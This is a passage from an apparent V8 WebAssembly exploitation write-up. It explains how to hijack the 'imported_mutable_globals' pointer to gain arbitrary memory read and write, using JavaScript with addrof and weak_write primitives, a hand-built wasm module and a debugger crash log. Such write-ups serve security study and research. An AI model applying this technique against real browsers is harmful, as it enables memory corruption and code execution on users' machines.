 Well, from observing the behaviour above, it would likely involve the corruption of one primary
value; that of the `imported_mutable_globals` pointer. But this value doesn't point directly to
the global variable that is modified - so we'd need to point it to an area of memory we control
and store a pointer to the memory we want to modify at that location.

The below web-assembly will read a 64-bit value from a mutable global variable.

```clojure
(module
  (global $g (import "js" "global") (mut i64))
  (func (export "read") (result i64)
    (global.get $g)
  )
)
```

```js
const global = new WebAssembly.Global({ value: "i64", mutable: true }, 0n);

let wasm = new Uint8Array([
  0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00, 0x01, 0x05, 0x01, 0x60, 0x00,
  0x01, 0x7e, 0x02, 0x0e, 0x01, 0x02, 0x6a, 0x73, 0x06, 0x67, 0x6c, 0x6f, 0x62,
  0x61, 0x6c, 0x03, 0x7e, 0x01, 0x03, 0x02, 0x01, 0x00, 0x07, 0x08, 0x01, 0x04,
  0x72, 0x65, 0x61, 0x64, 0x00, 0x00, 0x0a, 0x06, 0x01, 0x04, 0x00, 0x23, 0x00,
  0x0b
]);
let module = new WebAssembly.Module(wasm);
let instance = new WebAssembly.Instance(module, {
  js: { global }
});
```

As mentioned above, the primary objective we need to achieve is control over the
`imported_mutable_globals` table. I did this by simply pointing it to the elements store of
a float array. This way the entries within the table could easily be replaced.

If we want to replace this value with a location on the heap, this will also require a heap
address leak (which is easily obtained).

```js
let heap = (weak_read(0x18) >> 32n) << 32n;
let store = [1.1];
let elements = heap + (weak_read(addrof(store) + 0x8) & 0xffffffffn);
weak_write(addrof(instance) + 0x58, elements + 8n - 1n);

store[0] = utof(0xdeadbeefn);
instance.exports.read();
```

```
Thread 1 "d8" received signal SIGSEGV, Segmentation fault.
...
 ► 0x2e60bc29c662    mov    rcx, qword ptr [rax]
...
pwndbg> p/x $rax
$1 = 0xdeadbeef
```
